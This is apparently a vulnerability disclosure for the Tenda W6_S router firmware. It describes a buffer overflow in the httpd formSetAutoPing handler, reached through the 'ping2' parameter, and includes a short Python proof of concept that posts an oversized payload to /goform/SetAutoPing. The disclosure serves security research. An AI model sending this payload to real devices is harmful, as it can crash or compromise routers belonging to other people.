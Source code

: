 # buff overflow

## Tenda_W6_S

version: V1.0.0.4(510)

## Description:

There is a buff overflow in httpd/formSetAutoPing via parameter 'ping2'

## Source:

you may download it from : https://www.tendacn.com/download/detail-3478.html

## Analyse:


![](6.png)

get value from ping2, then call sprintf, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/SetAutoPing"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={'ping2': payload, 'linkEn':1})
``` 
